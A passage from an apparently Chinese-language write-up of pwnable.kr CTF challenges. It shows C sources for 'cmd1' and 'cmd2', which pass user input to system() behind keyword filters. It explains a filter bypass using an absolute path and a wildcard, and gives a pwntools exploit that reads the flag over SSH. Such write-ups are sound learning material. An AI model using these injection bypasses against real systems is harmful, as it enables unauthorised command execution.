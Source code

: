 ```
    print sh.recv()
    sh.sendline(payload)
    text=sh.recv()
    print len(text)
    if len(text)>71:
        print text
        break
```

## 0x0E cmd1

```cpp
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

可以看到设置了PATH 到/thankyoueverymuch,所以在/bin的二进制文件比如ls,pwd啥的就不能用了。。。。

但是可以绝对引用啊，然后cat是支持通配符的，就可以绕过了

Exp:

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='cmd1',password='guest',port=2222)
#shell.download_file('./cmd1.c')
sh = shell.run('./cmd1 "/bin/cat fl*" ')
sh.interactive()
```

## 0x0F cmd2

算是cmd1的进阶版本

```python
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
```